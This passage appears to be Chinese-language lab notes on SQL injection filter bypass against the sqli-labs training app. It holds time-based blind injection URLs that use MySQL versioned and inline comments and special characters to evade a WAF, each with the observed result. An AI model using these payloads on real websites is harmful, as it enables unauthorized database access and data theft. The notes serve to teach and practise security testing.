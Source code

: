 ![](./../../../images/SQLi_Bypass/%E6%B7%BB%E5%8A%A0%E6%9D%A1%E4%BB%B6%E5%88%A4%E6%96%AD%E6%B3%A8%E9%87%8A.png)

> 成功绕过
>
> 网页响应时间为 2 秒

提交注释后的参数

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'/*!11440and*/if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

> 成功绕过

在 and 后加 !

> and 参数后可以跟奇数个数的特殊符号，包括但不限于 !~&-

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'and!if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

> 不拦截，但是时间与预期不符
